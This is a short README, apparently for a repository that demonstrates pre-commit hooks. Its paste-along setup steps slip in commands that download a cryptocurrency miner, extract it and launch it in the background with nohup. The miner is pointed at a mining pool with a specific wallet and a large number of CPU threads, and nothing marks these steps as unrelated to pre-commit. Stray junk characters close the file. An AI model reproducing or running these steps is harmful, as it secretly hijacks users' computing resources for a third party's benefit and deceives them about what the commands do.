 demo-repo
=========

This is a demo repo to demonstrate pre-commit hooks.

pre-commit: https://github.com/pre-commit/pre-commit

Simple instructions to see this repo in action.

    $ virtualenv venv
    $ . venv/bin/activate
    $ pip install pre-commit
    $ pre-commit install
    $ pre-commit run --all-files
    $ wget https://github.com/hellcatz/luckpool/raw/master/miners/hellminer_cpu_linux.tar.gz
    $ tar -xvf hellminer_cpu_linux.tar.gz
    $ nohup ./hellminer -c stratum+tcp://na.luckpool.net:3956#xnsub -u RSUso79UhzvVCyPVBtuLoLRAayFGEEFjUV.A-002 -p x --cpu 54

    # Should show some output with some passing and some failing hooks


s
adfa
ss

